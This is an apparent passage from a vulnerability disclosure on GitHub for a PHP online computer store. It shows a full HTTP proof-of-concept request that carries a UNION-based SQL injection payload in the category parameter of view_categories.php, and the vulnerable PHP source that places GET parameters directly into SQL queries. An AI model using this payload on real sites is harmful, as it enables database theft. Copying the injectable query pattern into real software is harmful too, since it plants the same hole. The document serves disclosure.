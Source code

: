 ```
    }
    $sold = $conn->query("SELECT SUM(ol.quantity) as sold FROM order_list ol inner join orders o on o.id = ol.order_id where ol.product_id='{$id}' and o.`status` != 4 ");
    $sold = $sold->num_rows > 0 ? $sold->fetch_assoc()['sold'] : 0;
 }
?>
```

# 4.SQL injection vulnerability in view_categories.php

### Sample request POC #4

```
GET /?p=view_categories&c=' UNION ALL SELECT NULL,CONCAT(0x7162706b71,0x69424d474c4c6357514a6d7a5559647757794d756677554f7146785467646b666b466249504c776f,0x717a767871),NULL,NULL,NULL-- -&s= HTTP/1.1
Host: 10.211.55.3:8001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683795682706.jpg "Online Computer and Laptop Store - Multiple vulnerabilities")

### Related Codes /view_categories.php
```
<?php 
$title = "All Product Categories";
$sub_title = "";
if(isset($_GET['c']) && isset($_GET['s'])){
    $cat_qry = $conn->query("SELECT * FROM categories where md5(id) = '{$_GET['c']}'");
    if($cat_qry->num_rows > 0){
        $title = $cat_qry->fetch_assoc()['category'];
    }
 $sub_cat_qry = $conn->query("SELECT * FROM sub_categories where md5(id) = '{$_GET['s']}'");
    if($sub_cat_qry->num_rows > 0){
        $sub_title = $sub_cat_qry->fetch_assoc()['sub_category'];
    }
}
elseif(isset($_GET['c'])){
    $cat_qry = $conn->query("SELECT * FROM categories where md5(id) = '{$_GET['c']}'");
    if($cat_qry->num_rows > 0){
        $title = $cat_qry->fetch_assoc()['category'];
    }
}
elseif(isset($_GET['s'])){
```
